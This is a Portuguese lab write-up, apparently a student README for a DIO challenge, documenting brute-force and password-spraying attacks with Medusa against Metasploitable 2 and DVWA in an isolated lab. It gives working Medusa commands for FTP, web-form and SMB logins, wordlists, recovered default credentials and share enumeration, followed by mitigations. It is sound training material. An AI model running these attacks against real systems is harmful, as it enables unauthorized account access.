# Ataques de Força Bruta com Medusa e Kali Linux

Projeto prático de auditoria de segurança em ambiente controlado, realizado como parte do desafio da **DIO**. O objetivo é simular ataques de **força bruta** contra diferentes serviços (FTP, formulário Web e SMB), validar os acessos obtidos e propor **medidas de mitigação**.

> **Aviso legal:** todos os testes foram executados em um laboratório isolado, montado com máquinas virtuais de propósito deliberadamente vulnerável (Metasploitable 2 / DVWA), em rede *host-only* sem acesso à internet. Técnicas de força bruta só podem ser usadas em sistemas que você tem **autorização explícita** para testar.

---

## Sumário

- [Objetivos](#objetivos)
- [Ferramentas utilizadas](#ferramentas-utilizadas)
- [Onde baixar (downloads)](#onde-baixar-downloads)
- [Arquitetura do laboratório](#arquitetura-do-laboratório)
- [Fase 0 – Reconhecimento](#fase-0--reconhecimento)
- [Cenário 1 – Força bruta em FTP](#cenário-1--força-bruta-em-ftp)
- [Cenário 2 – Força bruta em formulário Web (DVWA)](#cenário-2--força-bruta-em-formulário-web-dvwa)
- [Cenário 3 – Password spraying em SMB](#cenário-3--password-spraying-em-smb)
- [Resumo das credenciais obtidas](#resumo-das-credenciais-obtidas)
- [Medidas de mitigação](#medidas-de-mitigação)
- [Aprendizados e reflexões](#aprendizados-e-reflexões)
- [Referências](#referências)

---

## Objetivos

- Compreender ataques de força bruta em diferentes serviços (FTP, Web, SMB);
- Utilizar o **Kali Linux** e o **Medusa** para auditoria de senhas em ambiente controlado;
- Documentar o processo técnico de forma clara e reproduzível;
- Reconhecer vulnerabilidades comuns e propor mitigações.

---

## Ferramentas utilizadas

| Ferramenta | Função |
|---|---|
| **VirtualBox** | Virtualização das máquinas (Kali e Metasploitable) |
| **Kali Linux** | Máquina atacante |
| **Metasploitable 2** | Máquina alvo (vulnerável por design) |
| **DVWA** | Aplicação web vulnerável hospedada no alvo |
| **Nmap** | Reconhecimento e identificação de serviços |
| **Medusa** | Ataque de força bruta paralelizado |
| **smbclient / ftp** | Validação dos acessos obtidos |

---

## Onde baixar (downloads)

Todo o ambiente foi montado com ferramentas gratuitas, a partir das fontes oficiais:

| Item | Link oficial | Observação |
|---|---|---|
| **Oracle VirtualBox** | https://www.virtualbox.org/wiki/Downloads | Baixe a versão para o seu SO (Windows/macOS/Linux) |
| **Kali Linux** | https://www.kali.org/get-kali/ | A opção **Virtual Machines** já traz uma imagem pronta para o VirtualBox; a opção **Installer Images** é o `.iso` para instalação manual |
| **Metasploitable 2** | https://sourceforge.net/projects/metasploitable/ | Download oficial via SourceForge (mantido pela Rapid7); vem como um disco `.vmdk` pronto para uso |

> **Dica:** para o Kali, a imagem pré-configurada (*VirtualBox image*) economiza tempo, pois já vem instalada. O Metasploitable 2 **não é um `.iso`** — ele já é um disco virtual (`.vmdk`), bastando criar uma VM e apontar para esse arquivo.

---

## Arquitetura do laboratório

Duas VMs conectadas por uma **rede interna (host-only)**, isolada da internet.

| VM | Sistema | Rede | IP |
|---|---|---|---|
| **Kali Linux** (atacante) | Ubuntu 64-bit, 2 GB RAM | Adaptador 1: NAT · Adaptador 2: Host-Only | (rede `192.168.56.0/24`) |
| **Metasploitable 2** (alvo) | Oracle Linux 64-bit, 2 GB RAM | Adaptador 1: Host-Only | `192.168.56.102` |

> A placa **Host-Only** (`VirtualBox Host-Only Ethernet Adapter`) é o que permite que as duas VMs enxerguem uma à outra em uma rede privada, sem expor o alvo vulnerável à internet.

**Configuração das VMs no VirtualBox:**




**Confirmação do IP do alvo** (na própria Metasploitable, via `ip a` / `ifconfig`):




---

## Fase 0 – Reconhecimento

Antes de qualquer ataque, confirmamos a conectividade com o alvo e identificamos os serviços expostos.

```bash
# Verifica se o alvo está acessível na rede
ping -c 3 192.168.56.102

# Identifica serviço e versão na porta 21 (FTP)
nmap -sV -p 21 192.168.56.102
```

**Resultado:** o alvo respondeu com 0% de perda de pacotes e o Nmap identificou a porta **21/tcp aberta**, rodando **vsftpd 2.3.4**.



---

## Cenário 1 – Força bruta em FTP

### 1. Teste manual

Primeiro, uma tentativa manual de login para confirmar que o serviço exige autenticação:

```bash
ftp 192.168.56.102
# Name: admin
# Password: ****
# → 530 Login incorrect
```

### 2. Criação das wordlists

Listas simples de usuários e senhas comuns:

```bash
echo -e 'user\nmsfadmin\nadmin\nroot' > users_teste.txt
echo -e '123456\npassword\nqwerty\nmsfadmin' > passwd_teste.txt
```

### 3. Ataque com Medusa

```bash
medusa -h 192.168.56.102 -U users_teste.txt -P passwd_teste.txt -M ftp -t 10
```

| Parâmetro | Significado |
|---|---|
| `-h` | Host alvo |
| `-U` | Arquivo de usuários |
| `-P` | Arquivo de senhas |
| `-M ftp` | Módulo FTP |
| `-t 10` | 10 tentativas em paralelo (threads) |

**Resultado:** credencial encontrada →  `msfadmin : msfadmin` **[SUCCESS]**

### 4. Validação do acesso

```bash
ftp 192.168.56.102
# Name: msfadmin / Password: msfadmin
# → 230 Login successful
```



---

## Cenário 2 – Força bruta em formulário Web (DVWA)

### 1. Análise do formulário

Acessando `http://192.168.56.102/dvwa/login.php` e usando o **DevTools do Firefox (aba Network)**, foi possível inspecionar a requisição `POST` enviada no login e identificar os campos do formulário: `username`, `password` e `Login`.



> Entender os nomes exatos dos campos e a mensagem de falha ("Login failed") é o passo-chave para automatizar o ataque em formulários web.

### 2. Ataque com Medusa (módulo HTTP)

```bash
echo -e 'user\nmsfadmin\nadmin\nroot' > users_teste_dvwa.txt
echo -e '123456\npassword\nqwerty\nmsfadmin' > passwd_teste_dvwa.txt

medusa -h 192.168.56.102 -U users_teste_dvwa.txt -P passwd_teste_dvwa.txt \
  -M http \
  -m PAGE:'/dvwa/login.php' \
  -m FORM:'username=^USER^&password=^PASS^&Login=Login' \
  -m 'FAIL=Login failed' \
  -t 6
```




### 3. Validação no navegador



A validação final foi feita **no próprio navegador**: entre as várias mensagens de `Login failed`, o DVWA confirmou o acesso real com a mensagem **"You have logged in as 'admin'"**, usando a credencial padrão **`admin : password`**.

> **Observação técnica (aprendizado):** a saída do Medusa trouxe avisos de `Invalid method: PAGE / FORM`, e vários pares foram marcados como `SUCCESS` indevidamente. Isso acontece porque a sintaxe dos parâmetros do módulo web do Medusa precisa de ajuste — sem a condição de falha interpretada corretamente, a ferramenta não consegue distinguir sucesso de erro e gera **falsos positivos**. Por isso a **confirmação manual no navegador é essencial**. Formulários do DVWA também usam cookie de sessão (e token anti-CSRF em níveis mais altos de segurança), o que torna `hydra` ou o `Burp Suite` alternativas mais adequadas para esse cenário específico.

---

## Cenário 3 – Password spraying em SMB

No **password spraying**, em vez de testar muitas senhas contra um único usuário, testamos **poucas senhas comuns contra vários usuários** — reduzindo o risco de bloqueio de conta.

### 1. Wordlists

```bash
echo -e 'user\nmsfadmin\nservice' > smb_users.txt
echo -e 'password\n123456\nwelcome123\nmsfadmin' > passwd_spray.txt
```

### 2. Ataque com Medusa (módulo SMB)

```bash
medusa -h 192.168.56.102 -U smb_users.txt -P passwd_spray.txt -M smbnt -t 2 -T 50
```

| Parâmetro | Significado |
|---|---|
| `-M smbnt` | Módulo SMB |
| `-t 2` | 2 threads por host |
| `-T 50` | até 50 hosts em paralelo |

**Resultado:** `msfadmin : msfadmin` **[SUCCESS (ADMIN$ - Access Allowed)]**

### 3. Enumeração dos compartilhamentos

Com a credencial válida, enumeramos os shares disponíveis:

```bash
smbclient -L //192.168.56.102 -U msfadmin
```

Compartilhamentos encontrados: `print$`, `tmp`, `opt`, `IPC$`, `ADMIN$`, `msfadmin` — servidor **Samba 3.0.20-Debian**, workgroup `METASPLOITABLE`.



---

## Resumo das credenciais obtidas

| Serviço | Usuário | Senha | Ferramenta |
|---|---|---|---|
| FTP (vsftpd 2.3.4) | `msfadmin` | `msfadmin` | Medusa `-M ftp` |
| Web (DVWA) | `admin` | `password` | Medusa `-M http` + validação no navegador |
| SMB (Samba 3.0.20) | `msfadmin` | `msfadmin` | Medusa `-M smbnt` |

---

## Medidas de mitigação

| Vulnerabilidade | Mitigação |
|---|---|
| Senhas fracas e previsíveis | Política de senhas fortes (tamanho mínimo, complexidade) e proibição de senhas padrão |
| Tentativas ilimitadas de login | **Bloqueio de conta** e *rate limiting* após N tentativas falhas |
| Ausência de 2º fator | Habilitar **MFA / 2FA** em serviços sensíveis |
| Serviços expostos desnecessariamente | Desativar serviços não usados; aplicar segmentação de rede e firewall |
| FTP em texto claro | Substituir por **SFTP/FTPS** |
| Falta de monitoramento | Registrar e alertar sobre picos de falhas de autenticação (SIEM / fail2ban) |
| Software desatualizado | Manter serviços como vsftpd e Samba atualizados |

---

## Aprendizados e reflexões

- O **reconhecimento** (Nmap) é a base de todo o processo: sem saber quais serviços existem, não há como direcionar o ataque.
- O Medusa é eficiente por ser **paralelizável** (`-t`), mas cada módulo tem sua própria sintaxe — e um módulo mal configurado pode gerar **falsos positivos**, reforçando a importância de **validar manualmente** cada acesso.
- O mesmo princípio (força bruta) se aplica de formas diferentes conforme o serviço: autenticação direta (FTP/SMB) é mais simples que formulários web, que envolvem sessões, cookies e tokens.
- **Password spraying** é uma técnica mais furtiva que a força bruta tradicional, justamente por evitar bloqueios de conta.
- A maior lição defensiva: **senhas fracas continuam sendo uma das portas de entrada mais fáceis** — a mitigação começa por política de senhas, bloqueio de tentativas e MFA.

---

## Referências

- [Kali Linux – Site oficial](https://www.kali.org/)
- [Medusa – Documentação](http://www.foofus.net/jmk/medusa/medusa.html)
- [DVWA – Damn Vulnerable Web Application](http://www.dvwa.co.uk/)
- [Nmap – Manual oficial](https://nmap.org/book/)
- [Metasploitable 2](https://docs.rapid7.com/metasploit/metasploitable-2/)

---

*Projeto desenvolvido por Heitor para o desafio de Força Bruta com Medusa e Kali Linux — DIO.*
